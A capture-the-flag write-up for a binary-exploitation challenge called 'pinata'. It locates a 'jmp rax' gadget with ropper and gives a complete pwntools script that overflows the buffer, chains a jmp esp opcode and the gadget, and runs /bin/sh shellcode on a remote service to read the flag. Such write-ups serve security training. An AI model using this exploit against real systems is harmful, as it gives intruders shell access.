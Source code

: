 First of all, we need to find some useful gadgets.

```console
➜  challenge git:(main) ✗ ropper -f ./pinata --search "jmp rax"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp rax

[INFO] File: ./pinata
0x00000000004016ec: jmp rax;
```

This gadget is extremely handy to return where we have written.

Another useful "gadget" is the `jmp esp` opcode. We will combine these 2 to write to `rax`, jump there and then jump to `esp` to execute our shellcode.

# Solution

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './pinata' 

LOCAL = False

if LOCAL:
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)

sc = asm(shellcraft.execve('/bin/sh'))

payload  = b'\xff\xe4'             # jmp esp opcode
payload += b'\x90'*22
payload += p64(0x00000000004016ec) # jmp rax
payload += sc 

r.recvuntil('>> ')
r.sendline(payload)

pause(1)
r.sendline('cat flag*')
print(f'\nFlag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

```console
➜  htb git:(main) ✗ python solver.py 

Flag --> HTB{f4k3_fl4g_f0r_writ3up}}
```

